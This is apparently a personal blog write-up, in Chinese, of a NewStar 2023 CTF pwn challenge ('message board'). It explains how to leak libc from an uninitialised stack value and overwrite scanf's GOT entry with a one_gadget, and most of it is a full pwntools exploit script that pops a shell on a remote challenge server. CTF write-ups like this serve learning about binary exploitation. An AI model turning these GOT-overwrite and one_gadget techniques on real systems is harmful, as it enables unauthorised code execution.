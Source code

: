 ```yaml
---
title: newstar2023 week4 - message board
date: 2023/10/20 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - fmt-string
excerpt: 利用栈初始化和one_gadget漏洞，成功在msgboard程序中获取shell。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

一开始就要拿到puts的地址？how to？  
scanf也只能修改任意地址一次，又要怎么做？

分别利用栈初始化和one_gadget即可

{% notel green fa-arrow-right tips %}
1. libcBase并不是无中生有，而是在栈上存在未初始化的`_IO_2_1_stderr_`
2. 数字会覆盖到栈上；垃圾字符会导致scanf一直输入不了；而'+'能使scanf跳过输入，
不覆盖栈内容
3. ELF里的symbols不止可以找函数，找stderr这样的标签都是可以的
4. got可写，那么可以利用one_gadget来使一个函数直接运行打开shell（但是要注意限制条件）
5. 注意got里的函数是不可写的，只有.got.plt里的函数可写
6. one_gadget在本地不一定是可用的，在我的电脑上就没开起来（但是验证了可行性）
{% endnotel %}

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('msgboard')
        gdb.attach(sh)
    else:
        sh = remote('node4.buuoj.cn', 27179)

    # payload 1, leak _IO_2_1_stderr_
    sh.sendline(b'2 + +') # 
    sh.recvuntil(b'is ') # skip
    sh.recvuntil(b'is ') # skip
    stderr = int(sh.recvline())

    if lo:
        libc = ELF('/usr/lib/libc.so.6')
    else:
        libc = ELF('libc-2.31.so')
    libcBase = stderr - libc.symbols['_IO_2_1_stderr_']
    print(hex(libcBase)) # check it
    putsGotAddr = libcBase + libc.symbols['puts'] # shift

    if lo:
        oneGadget = libcBase + 0xfabcf # r9 == 0 && rdx == 0 && [rsp + 0x70] == 0
    else:
        oneGadget = libcBase + 0xe3b01 # r15 == 0 && rdx == 0

    # payload 2, send puts addr shifted from stderr
    sh.sendline(str(putsGotAddr).encode())

    elf = ELF('msgboard')
    symA = elf.bss(0xa0 - 0x60)
    printfGot = elf.got['__isoc99_scanf']
    offset = (printfGot - symA) // 4 # locate printfGot
    print(offset)

    # payload 3, modify printf to one_gadget
    sh.sendlineafter(b'ons', str(offset).encode()) # idx
    sh.sendlineafter(b'ion', str(oneGadget & 0xffffffff).encode()) # content, 32b
    # now running printf opens shell

    sh.interactive()

```

Done.

